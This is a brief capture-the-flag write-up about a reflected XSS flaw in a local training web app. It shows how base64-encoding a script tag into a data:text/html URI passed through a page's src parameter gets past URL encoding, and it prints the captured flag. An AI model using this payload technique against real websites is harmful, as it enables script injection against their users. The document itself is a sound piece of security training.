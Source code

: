 Vulnerability name: Reflected XSS

How to defend: validate and sanitize input

a weirdly loaded image http://localhost:13080/index.php?page=media&src=1

after trying a million things

we can bypass the url encoding with base 64, and do an xss attack

```
➜  darklyProject git:(master) ✗ echo '<script>alert()</script>' | base64
PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+Cg==
```

this gives us a double wrong answer as http://localhost:8080/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgpPC9zY3JpcHQ+Cg==

but putting something in the alert

```
➜  darklyProject git:(master) ✗ echo '<script>alert("ok")</script>' | base64
PHNjcmlwdD5hbGVydCgib2siKTwvc2NyaXB0Pgo=
```

gets us the flag

```
The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```
